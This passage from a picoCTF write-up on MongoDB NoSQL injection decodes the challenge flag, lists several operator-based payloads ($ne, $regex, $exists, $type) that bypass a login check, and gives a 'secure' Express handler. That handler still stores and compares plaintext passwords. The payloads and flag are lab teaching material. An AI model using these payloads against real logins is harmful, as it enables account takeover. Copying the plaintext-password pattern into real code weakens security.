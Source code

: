 ## Flag Extraction

The `token` field contains a base64-encoded flag:

```bash
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==" | base64 -d
```

**Output:** `picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}`

## Alternative Payloads

Several other MongoDB operators could have been used:

1. **Using `$exists`:**
```json
{"email":"picoplayer355@picoctf.org","password":"{\"$exists\": true}"}
```

2. **Using `$regex`:**
```json
{"email":"picoplayer355@picoctf.org","password":"{\"$regex\": \".*\"}"}
```

3. **Using `$type`:**
```json
{"email":"picoplayer355@picoctf.org","password":"{\"$type\": \"string\"}"}
```

4. **Bypassing both fields:**
```json
{"email":"{\"$ne\": null}","password":"{\"$ne\": null}"}
```

## Prevention and Mitigation

### Secure Code Example
```javascript
app.post("/login", async (req, res) => {
  const { email, password } = req.body;

  // Input validation
  if (typeof email !== 'string' || typeof password !== 'string') {
    return res.status(400).json({ success: false, error: 'Invalid input' });
  }

  try {
    const user = await User.findOne({
      email: email,      // Direct string comparison
      password: password // Direct string comparison
    });

    if (user) {
      res.json({ success: true, token: user.token });
    } else {
      res.json({ success: false });
    }
  } catch (err) {
    res.status(500).json({ success: false, error: 'Server error' });
  }
});
```
